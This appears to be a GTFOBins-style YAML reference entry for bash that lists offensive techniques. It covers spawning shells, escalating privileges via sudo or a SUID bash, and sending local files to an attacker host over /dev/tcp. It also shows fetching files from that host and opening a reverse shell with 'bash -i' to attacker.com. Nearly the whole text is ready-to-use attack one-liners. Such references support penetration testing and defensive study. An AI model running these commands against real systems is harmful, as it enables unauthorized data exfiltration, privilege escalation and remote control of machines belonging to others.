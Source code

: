 ```yaml
---
functions:
  exec-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        cat $LFILE > /dev/tcp/$RHOST/$RPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_get
        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |-
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_get
        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
---
```


